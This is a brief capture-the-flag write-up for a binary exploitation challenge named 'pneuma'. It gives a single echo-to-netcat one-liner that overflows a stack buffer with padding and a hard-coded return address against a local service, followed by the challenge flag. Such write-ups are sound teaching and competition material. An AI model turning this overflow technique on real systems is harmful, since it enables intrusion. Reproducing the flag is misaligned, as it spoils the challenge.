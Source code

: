 # pwn | pneuma

## Information
We are spirit bound to this flesh
We go round one foot nailed down
But bound to reach out and beyond this flesh
Become Pneuma

## Writeup

`echo -e "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaRBPRBPRB\xFD\x12\x40\x00\x00\x00\x00\x00" | nc localhost 9003`

## Flag
`SgffCTF{3y3s_fu11_0f_w0nd3r}`
